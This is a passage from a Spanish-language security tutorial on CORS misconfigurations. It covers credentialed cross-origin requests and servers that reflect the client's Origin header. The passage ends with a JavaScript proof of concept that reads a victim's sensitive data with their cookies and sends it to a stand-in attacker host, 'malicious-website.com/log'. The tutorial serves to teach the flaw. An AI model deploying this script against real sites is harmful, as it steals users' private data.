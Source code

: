 Además, conviene añadir que **se puede configurar el servidor para que acepte el intercambio de datos cruzados si se le proporcionan unas credenciales validas incorporadas como cookies**:

```default
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

En cuyo caso, la respuesta esperada será:

```default
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

Es entre las distintas configuraciones de esta cabecera donde vamos a encontrar diversos métodos de bypass.

<br />

### 2. Vulnerabilidades planteadas desde la configuración CORS.

Muchos sitios web modernos usan CORS para permitir el acceso desde subdominios y terceros de confianza. La implementación del CORS puede contener errores o ser demasiado indulgente para garantizar que todo funcione, y esto puede dar lugar a vulnerabilidades explotables.

<br />

- **Encabezado ACAO generado por el servidor a partir del encabezado Origin especificado por el cliente**

Algunas aplicaciones necesitan proporcionar acceso a otros dominios. Mantener una lista de dominios permitidos requiere un esfuerzo continuo y cualquier error corre el riesgo de romper la funcionalidad. Por lo tanto, algunas aplicaciones toman la ruta fácil de permitir efectivamente el acceso desde cualquier otro dominio.

Así, basta con solicitar un recurso y añadir la cabecera con el origen del solicitante para recibir los datos:

```html
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Esto significa que la aplicación permite el intercambio de datos con cualquier otro dominio y estos pueden obtenerse implementando el siguiente script.

```default
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; req.send();

function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };
```
